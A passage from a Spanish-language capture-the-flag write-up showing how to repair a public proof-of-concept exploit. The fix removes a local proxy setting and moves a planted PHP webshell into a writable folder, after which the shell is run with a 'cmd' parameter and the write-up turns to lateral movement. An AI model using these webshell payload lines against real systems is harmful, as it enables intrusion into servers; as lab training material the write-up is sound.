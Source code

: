 Parece ser que el script no funciona, ya que este POC depende de la escritura de un webshell, por lo que es necesario encontrar una carpeta adecuada con permisos de escritura. Revisando el código debemos hacer dos pequeños cambios para conseguir que funcione. El cambio es el siguiente:

Por una parte, se deben modificar la siguiente línea, ten en cuenta que esta línea aparece dos veces:

```
response = requests.post(url, headers=headers, data=data, files=files, proxies={"http": "http://localhost:8080"})
```

Por:

```
response = requests.post(url, headers=headers, data=data, files=files)
```

Además, también debemos cambiar la dirección donde se escribirá el script. Si visitamos el repositorio de GitHub vemos que hay una carpeta donde podemos probar a depositar el webshell.

![](../../../Imágenes/image-20%201.png)

Esta modificación se da en dos lugares:

```
<write filename="info:DOCUMENTROOT/shell.php" />
```

```
response = requests.get(url + "/shell.php", params={"cmd": cmd})
```

Y se debe reemplazar por esto:

```
<write filename="info:DOCUMENTROOT/cpresources/shell.php" />
```

```
response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
```

Probemos a ejecutar el script ahora:

![](../../../Imágenes/image-19%201.png)

Ahora es momento de estabilizar la terminal:

![](../../../Imágenes/image-22%201.png)

## **Movimiento lateral hacia Matthew**

En este momento estamos con un punto de apoyo como usuario www-data. Vemos que hay dos usuarios en el sistema, Matthew y Zoneminder:

![[../../../Imágenes/Pasted image 20240919130039.png]]

Enumerando el sistema nos encontramos con una copia de seguridad de la base de datos SQL del sitio web:
